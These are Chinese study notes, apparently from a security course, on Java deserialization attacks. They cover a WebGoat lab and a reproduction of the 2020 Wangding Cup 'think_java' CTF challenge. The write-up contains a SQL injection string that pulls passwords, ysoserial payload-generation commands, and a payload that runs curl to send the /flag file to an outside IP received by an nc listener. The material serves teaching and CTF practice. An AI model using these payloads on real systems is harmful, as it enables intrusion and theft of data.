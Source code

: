 ### 导图

![](image38/QQ截图20220328230238.png)



### 序列化

序列化 (Serialization)：将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对
象将其当前状态写入到临时或持久性存储区。

### 反序列化

反序列化：从存储区中读取该数据，并将其还原为对象的过程，称为反序列化。

### Java中的API实现:

位置: Java.io.ObjectOutputStream            java.io.ObjectlnputStream

**序列化**:	**ObjectOutputStream类--> write0bject()**

注:该方法对参数指定的ob j对象进行序列化，把字节序列写到一个目标输出流中
按Java的标准约定是给文件一个.ser扩展名

**反序列化**: 	**ObjectInputStream类 --> read0bject()**

注:该方法从一个源输入流中读取字节序列,再把它们反序列化为一个对象,并将其返回。





### 演示案例：

### Java 反序列化及命令执行代码测试

![](image38/QQ截图20220329131355.png)

![](image38/QQ截图20220329131415.png)

![](image38/QQ截图20220329131435.png)



### WebGoat_Javaweb 靶场反序列化测试



```txt
启动 javaweb
java -jar webgoat-server-8.2.2.jar
访问
http://127.0.0.1:8080/WebGoat
```

![](image38/QQ截图20220329141844.png)

```txt

java -Dhibernate2 -cp hibernate-core-5.4.28.Final.jar;ysoserial-master-8eb5cbfbf6-1.jar
ysoserial.GeneratePayload Hibernate1 calc.exe > payload.bin
```

![](image38/QQ截图20220329132726.png)

### 2020-网鼎杯-朱雀组-Web-think_java 真题复现

**下方的特征可以作为序列化的标志参考:**

- **一段数据以rO0AB开头， 你基本可以确定这串就是JAVA序列化base64加密的数据。**
- **或者如果以aced开头，那么他就是这一段java序列化的16进制。|**

```txt
0x01 注入判断，获取管理员帐号密码：
根据提示附件进行 javaweb 代码审计，发现可能存在注入漏洞
另外有 swagger 开发接口，测试注入漏洞及访问接口进行调用测试
数据库名：myapp,列名 name,pwd
注入测试：
POST /common/test/sqlDict
dbName=myapp?a=' union select (select pwd from user)#
0x02 接口测试
/swagger-ui.html 接口测试：
{
"password":"ctfhub_29588_13038",
"username": "ctfhub"
}
登录成功返回数据：
{
"data": "Bearer
rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZ
y9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMj
yPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABmN0Zm
h1Yg==",
"msg": "登录成功",
"status": 2,
"timestamps": 1594549037415
}

0x03 回显数据分析攻击思路
JAVAWEB 特征可以作为序列化的标志参考:
一段数据以 rO0AB 开头，你基本可以确定这串就是 JAVA 序列化 base64 加密的数据。
或者如果以 aced 开头，那么他就是这一段 java 序列化的 16 进制。
分析数据：
先利用 py2 脚本 base64 解密数据
import base64
a =
"rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFu
Zy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDM
jyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkb
Wlu"
b = base64.b64decode(a).encode('hex')
print(b)
再利用 SerializationDumper 解析数据
java -jar SerializationDumper.jar base64 后的数据

0x04 生成反序列化 payload
解密后数据中包含帐号等信息，通过接口/common/user/current 分析可知数据有接受，说明存在反
序列化操作，思路：将恶意代码进行序列化后进行后续操作
利用 ysoserial 进行序列化生成
java -jar ysoserial-master-30099844c6-1.jar ROME "curl http://47.75.212.155:4444 -d @/flag" > xiaodi.bin
利用 py2 脚本进行反序列化数据的提取
import base64
file = open("xiaodi.bin","rb")
now = file.read()
ba = base64.b64encode(now)
print(ba)
file.close()

0x05 触发反序列化，获取 flag
服务器执行：nc -lvvp 4444
数据包直接请求获取进行反序列数据加载操作
```



### 涉及资源：

https://github.com/frohoff/ysoserial/releases
https://github.com/WebGoat/WebGoat/releases
https://github.com/NickstaDB/SerializationDumper/releases/tag/1.12

```python
import base64
c=open("payload.bin","rb").read()
cc=base64.urlsafe_b64encode(c)
open("payload.txt","wt",ecoding="utf-8").write(cc.decode())
```

